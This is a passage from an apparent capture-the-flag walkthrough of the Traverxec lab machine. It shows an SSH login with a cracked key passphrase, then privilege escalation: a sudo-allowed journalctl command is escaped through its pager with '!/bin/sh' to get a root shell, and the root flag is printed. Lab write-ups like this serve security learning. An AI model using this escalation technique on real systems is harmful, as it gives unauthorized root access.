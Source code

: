re-try ssh, with the cracked `.htpasswd` passphrase:

```bash
708 💀 ± ➤ ssh -i ./id_rsa david@10.10.10.165
Enter passphrase for key './id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$
```

## PRIVESC ROOT

### journalctl less

There a script in davids `~/bin` directory with this command: `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Tue 2022-04-05 04:25:57 EDT, end at Tue 2022-04-05 06:22:22 EDT. --
Apr 05 04:56:24 traverxec sudo[5475]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Apr 05 04:56:24 traverxec sudo[5475]: www-data : command not allowed ; TTY=pts/1 ; PWD=/tmp ; USER=root ; COMMAND=list
Apr 05 04:56:25 traverxec nologin[5516]: Attempted login by UNKNOWN on UNKNOWN
Apr 05 05:07:22 traverxec su[12115]: pam_unix(su-l:auth): authentication failure; logname= uid=33 euid=0 tty=pts/1 ruser=www-data r
Apr 05 05:07:24 traverxec su[12115]: FAILED SU (to root) www-data on pts/1
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
#
# cd /root  
# ls
nostromo_1.9.6-1.deb  root.txt
# cat root.txt
9aa36a6d76f785dfd320a478f6e0d906
#  
```
